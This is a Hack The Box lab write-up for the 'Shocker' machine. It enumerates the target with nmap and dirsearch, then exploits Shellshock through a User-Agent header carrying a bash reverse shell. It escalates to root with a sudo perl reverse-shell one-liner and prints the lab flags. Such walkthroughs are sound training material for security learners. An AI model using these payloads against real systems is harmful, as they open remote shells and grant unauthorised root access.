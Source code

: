 # Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-19 20:00 +08
Nmap scan report for 10.10.10.56
Host is up (0.0046s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/19%OT=80%CT=1%CU=35637%PV=Y%DS=2%DC=T%G=Y%TM=6210DBF
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT     ADDRESS
1   3.87 ms 10.10.14.1
2   3.95 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.89 seconds

```

Let’s check out the website…

![website](website.png)

It seems like there’s nothing much on the website and the source code…

Let’s run a `dirsearch` scan then!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# dirsearch -u 10.10.10.56 -w /usr/share/dirb/wordlists/common.txt   

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /root/.dirsearch/reports/10.10.10.56_22-02-19_20-21-28.txt

Error Log: /root/.dirsearch/logs/errors-22-02-19_20-21-28.log

Target: http://10.10.10.56/

[20:21:28] Starting: 
[20:21:30] 403 -  294B  - /cgi-bin/
[20:21:34] 200 -  137B  - /index.html
[20:21:40] 403 -  299B  - /server-status

Task Completed
```

It seems like there is nothing much too… The only thing that seems interesting is the `/cgi-bin/` directory.

>   A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website

Let’s run `dirsearch` again on the `/cgi-bin/` directory with some common extensions like `sh, cgi, bash`

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# dirsearch -u http://10.10.10.56/cgi-bin -w /usr/share/dirb/wordlists/common.txt -f -e sh,cgi,bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh, cgi, bash | HTTP method: GET | Threads: 30 | Wordlist size: 22730

Output File: /root/.dirsearch/reports/10.10.10.56/-cgi-bin_22-02-19_20-28-10.txt

Error Log: /root/.dirsearch/logs/errors-22-02-19_20-28-10.log

Target: http://10.10.10.56/cgi-bin/

[20:28:10] Starting: 
[20:29:19] 200 -  119B  - /cgi-bin/user.sh

Task Completed
```

OwO! There is a `user.sh` file?

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# curl 10.10.10.56/cgi-bin/user.sh                                
Content-Type: text/plain

Just an uptime test script

 07:31:03 up 30 min,  0 users,  load average: 0.00, 0.02, 0.00

```

It seems like a bash script running?

# Exploitation

I did some Googling on `cgi bin exploits` and an interesting vulnerability `ShellShock` showed up.

According to this [GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) repository, we can check for the exploit by adjusting the `User Agent` to have some bash command.

Let’s open Burp Suite and try it out in the Burp Repeater!

![burp](burp.png)

Oh! It seems like it worked :D

Can we possibly send a reverse shell bash script to gain access to `shelly`?

```bash
Before: 
User Agent: () { :; }; echo; /bin/bash -c "whoami"

After:
User Agent: () { :; }; echo; /bin/bash -c "exec bash -i &>/dev/tcp/<ip>/<port> <&1"
```

Now, we open a netcat listener and execute the script…

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Shocker]
└─# nc -nlvp 1337              
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.56] 44040
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

# Privilege Escalation

Let’s check what `sudo` privileges can `shelly` run.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

It seems like she can run `perl` :)

Let’s craft a reverse shell with `perl` and start another listener OwO

```perl
sudo /usr/bin/perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 6969            
listening on [any] 6969 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.56] 41834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
52c2715605d70c7619030560dc1ca467
```





